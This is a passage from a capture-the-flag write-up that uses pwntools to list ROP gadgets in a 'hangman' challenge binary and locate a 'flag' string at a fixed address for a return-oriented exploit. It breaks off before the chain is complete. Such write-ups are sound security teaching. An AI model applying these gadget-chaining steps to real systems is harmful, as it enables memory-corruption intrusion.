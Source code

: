 Now let's fire up pwntool and look for some gadgets:
```py
In [1]: from pwn import *

In [2]: exe = context.binary = ELF('./hangman')
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

In [3]: r = ROP(exe)

In [4]: r.gadgets
Out[4]:
{4198423: Gadget(0x401017, ['add esp, 8', 'ret'], [], 0x10),
 4198422: Gadget(0x401016, ['add rsp, 8', 'ret'], [], 0x10),
 4199124: Gadget(0x4012d4, ['leave', 'ret'], ['rbp', 'rsp'], 0x2540be407),
 4200860: Gadget(0x40199c, ['pop r12', 'pop r13', 'pop r14', 'pop r15', 'ret'], ['r12', 'r13', 'r14', 'r15'], 0x28),
 4200862: Gadget(0x40199e, ['pop r13', 'pop r14', 'pop r15', 'ret'], ['r13', 'r14', 'r15'], 0x20),
 4200864: Gadget(0x4019a0, ['pop r14', 'pop r15', 'ret'], ['r14', 'r15'], 0x18),
 4200866: Gadget(0x4019a2, ['pop r15', 'ret'], ['r15'], 0x10),
 4200859: Gadget(0x40199b, ['pop rbp', 'pop r12', 'pop r13', 'pop r14', 'pop r15', 'ret'], ['rbp', 'r12', 'r13', 'r14', 'r15'], 0x30),
 4200863: Gadget(0x40199f, ['pop rbp', 'pop r14', 'pop r15', 'ret'], ['rbp', 'r14', 'r15'], 0x20),
 4198957: Gadget(0x40122d, ['pop rbp', 'ret'], ['rbp'], 0x10),
 4200867: Gadget(0x4019a3, ['pop rdi', 'ret'], ['rdi'], 0x10), # (1)
 4200865: Gadget(0x4019a1, ['pop rsi', 'pop r15', 'ret'], ['rsi', 'r15'], 0x18), # (2)
 4200861: Gadget(0x40199d, ['pop rsp', 'pop r13', 'pop r14', 'pop r15', 'ret'], ['rsp', 'r13', 'r14', 'r15'], 0x28),
 4198426: Gadget(0x40101a, ['ret'], [], 0x8)}
```

There we found two very interesting gadgets. `(1)` that gives us pop to `RDI` and `(2)` that gives us pop to `RSI` and `R15`, we can ignore `R15` by just popping some random value into it. 

For the first argument, we need a string `"flag"`. It is possible to write it into the stack but since `ASLR` is enabled, we can't know the exact address so that's not an option. Looking a little bit more into the code, we see the following line:

```c
puts("But it is still not enough to get a flag");
```

So now we have a string `"flag"` at an address we can predict since the executable is not compiled with `PIE`. Let's go back to pwntools and find it's address:

```py
In [5]: next(exe.search(b'flag'))
Out[5]: 0x40232c
```

Now we have all we need to get the flag into memory, now we need to print it. The function `getWord` returns the address of the word chosen, which in this case, it is our sweet flag, which means that we will have the address of `"flag"` on `RAX`. Now we only need to find a gadget that moves a value from `RAX` to a relevant parameter and print it.
